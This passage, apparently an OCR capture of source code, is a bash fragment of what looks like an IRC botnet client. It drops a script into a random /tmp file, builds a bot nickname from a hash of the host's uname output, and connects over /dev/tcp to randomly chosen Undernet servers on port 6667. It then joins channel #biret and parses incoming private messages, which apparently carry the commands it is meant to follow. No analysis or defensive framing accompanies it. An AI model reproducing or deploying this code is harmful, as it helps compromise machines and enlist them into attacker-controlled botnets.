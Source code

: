 ```bash
rXneU1DK+7iLRnkI4PRYYbdfwp92nRza00JUR7P4pghG5SnRK+R/579vIiy+1oAF
WRq+Z8HYMvPlgSRA3wIDAQAB
-----END PUBLIC KEY-----
EOFMARKER

BOT=`mktemp -u 'XXXXXXXX'`

cat > /tmp/$BOT <<'EOFMARKER'
#!/bin/bash

SYS=`uname -a | md5sum | awk -F' ' '{print $1}'`
NICK=a${SYS:24}
while [ true ]; do

  arr[0]="ix1.undernet.org"
  arr[1]="ix2.undernet.org"
  arr[2]="Ashburn.Va.Us.UnderNet.org"
  arr[3]="Bucharest.RO.EU.Undernet.Org"
  arr[4]="Budapest.HU.EU.UnderNet.org"
  arr[5]="Chicago.IL.US.Undernet.org"
  rand=$[$RANDOM % 6]
  svr=${arr[$rand]}

  eval 'exec 3<>/dev/tcp/$svr/6667;'
  if [[ ! "$?" -eq 0 ]] ; then
      continue
  fi

  echo $NICK

  eval 'printf "NICK $NICK\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
      continue
  fi
  eval 'printf "USER user 8 * :IRC hi\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
    continue
  fi

  # Main loop
  while [ true ]; do
    eval "read msg_in <&3;"

    if [[ ! "$?" -eq 0 ]] ; then
      break
    fi

    if  [[ "$msg_in" =~ "PING" ]] ; then
      printf "PONG %s\n" "${msg_in:5}";
      eval 'printf "PONG %s\r\n" "${msg_in:5}" >&3;'
      if [[ ! "$?" -eq 0 ]] ; then
        break
      fi
      sleep 1
      eval 'printf "JOIN #biret\r\n" >&3;'
      if [[ ! "$?" -eq 0 ]] ; then
        break
      fi
    elif [[ "$msg_in" =~ "PRIVMSG" ]] ; then
      privmsg_h=$(echo $msg_in| cut -d':' -f 3)
      privmsg_data=$(echo $msg_in| cut -d':' -f 4)
      privmsg_nick=$(echo $msg_in| cut -d':' -f 2 | cut -d'!' -f 1)

```